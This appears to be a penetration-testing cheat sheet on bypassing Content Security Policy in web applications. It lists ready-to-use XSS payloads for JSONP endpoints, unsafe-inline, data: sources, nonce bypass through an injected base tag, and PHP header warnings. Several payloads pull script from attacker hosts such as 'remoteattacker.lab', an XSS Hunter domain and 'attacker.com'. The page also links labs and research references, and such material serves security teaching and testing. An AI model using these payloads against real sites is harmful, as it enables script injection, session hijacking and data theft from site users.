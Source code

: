 # CSP Bypass

> A Content Security Policy (CSP) is a security feature that helps prevent cross-site scripting (XSS), data injection attacks, and other code-injection vulnerabilities in web applications. It works by specifying which sources of content (like scripts, styles, images, etc.) are allowed to load and execute on a webpage.

## Summary

- [Tools](#tools)
- [Bypass CSP using JSONP](#bypass-csp-using-jsonp)
- [Bypass CSP default-src](#bypass-csp-default-src)
- [Bypass CSP inline eval](#bypass-csp-inline-eval)
- [Bypass CSP unsafe-inline](#bypass-csp-unsafe-inline)
- [Bypass CSP script-src self](#bypass-csp-script-src-self)
- [Bypass CSP script-src data](#bypass-csp-script-src-data)
- [Bypass CSP nonce](#bypass-csp-nonce)
- [Bypass CSP header sent by PHP](#bypass-csp-header-sent-by-php)
- [Labs](#labs)
- [References](#references)

## Tools

- [gmsgadget.com](https://gmsgadget.com/) - GMSGadget (Give Me a Script Gadget) is a collection of JavaScript gadgets that can be used to bypass XSS mitigations such as Content Security Policy (CSP) and HTML sanitizers like DOMPurify.
- [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) - CSP Evaluator allows developers and security experts to check if a Content Security Policy (CSP) serves as a strong mitigation against cross-site scripting attacks.

## Bypass CSP using JSONP

**Requirements**:

- CSP: `script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';`

**Payload**:

Use a callback function from a whitelisted source listed in the CSP.

- Google Search: `//google.com/complete/search?client=chrome&jsonp=alert(1);`
- Google Account: `https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)`
- Google Translate: `https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert();`
- Youtube: `https://www.youtube.com/oembed?callback=alert;`
- [Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
- [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

## Bypass CSP default-src

**Requirements**:

- CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`,

**Payload**:

`http://example.lab/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//remoteattacker.lab/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;`

```js
script=document.createElement('script');
script.src='//remoteattacker.lab/csp.js';
window.frames[0].document.head.appendChild(script);
```

Source: [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

## Bypass CSP inline eval

**Requirements**:

- CSP `inline` or `eval`

**Payload**:

```js
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

Source: [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

## Bypass CSP script-src self

**Requirements**:

- CSP like `script-src self`

**Payload**:

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

Source: [@akita_zen](https://twitter.com/akita_zen)

## Bypass CSP script-src data

**Requirements**:

- CSP like `script-src 'self' data:` as warned about in the official [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src).

**Payload**:

```javascript
<script src="data:,alert(1)">/</script>
```

Source: [@404death](https://twitter.com/404death/status/1191222237782659072)

## Bypass CSP unsafe-inline

**Requirements**:

- CSP: `script-src https://google.com 'unsafe-inline';`

**Payload**:

```javascript
"/><script>alert(1);</script>
```

## Bypass CSP nonce

**Requirements**:

- CSP like `script-src 'nonce-RANDOM_NONCE'`
- Imported JS file with a relative link: `<script src='/PATH.js'></script>`

**Payload**:

- Inject a base tag.

  ```html
  <base href=http://www.attacker.com>
  ```

- Host your custom js file at the same path that one of the website's script.

  ```ps1
  http://www.attacker.com/PATH.js
  ```

## Bypass CSP header sent by PHP

**Requirements**:

- CSP sent by PHP `header()` function

**Payload**:

In default `php:apache` image configuration, PHP cannot modify headers when the response's data has already been written. This event occurs when a warning is raised by PHP engine.

Here are several ways to generate a warning:

- 1000 $_GET parameters
- 1000 $_POST parameters
- 20 $_FILES

If the **Warning** are configured to be displayed you should get these:

- **Warning**: `PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in Unknown on line 0`
- **Warning**: `Cannot modify header information - headers already sent in /var/www/html/index.php on line 2`

```ps1
GET /?xss=<script>alert(1)</script>&a&a&a&a&a&a&a&a...[REPEATED &a 1000 times]&a&a&a&a
```

Source: [@pilvar222](https://twitter.com/pilvar222/status/1784618120902005070)

## Labs

- [Root Me - CSP Bypass - Inline Code](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
- [Root Me - CSP Bypass - Nonce](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
- [Root Me - CSP Bypass - Nonce 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce-2)
- [Root Me - CSP Bypass - Dangling Markup](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
- [Root Me - CSP Bypass - Dangling Markup 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)
- [Root Me - CSP Bypass - JSONP](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

## References

- [Airbnb – When Bypassing JSON Encoding, XSS Filter, WAF, CSP, and Auditor turns into Eight Vulnerabilities - Brett Buerhaus (@bbuerhaus) - March 8, 2017](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)
- [D1T1 - So We Broke All CSPs - Michele Spagnuolo and Lukas Weichselbaum - June 27, 2017](http://web.archive.org/web/20170627043828/https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [How to use Google’s CSP Evaluator to bypass CSP - Thomas Orlita - September 9, 2018](https://websecblog.com/vulns/google-csp-evaluator/)
- [Making an XSS triggered by CSP bypass on Twitter - wiki.ioin.in(查看原文) - April 6, 2020](https://www.buaq.net/go-25883.html)
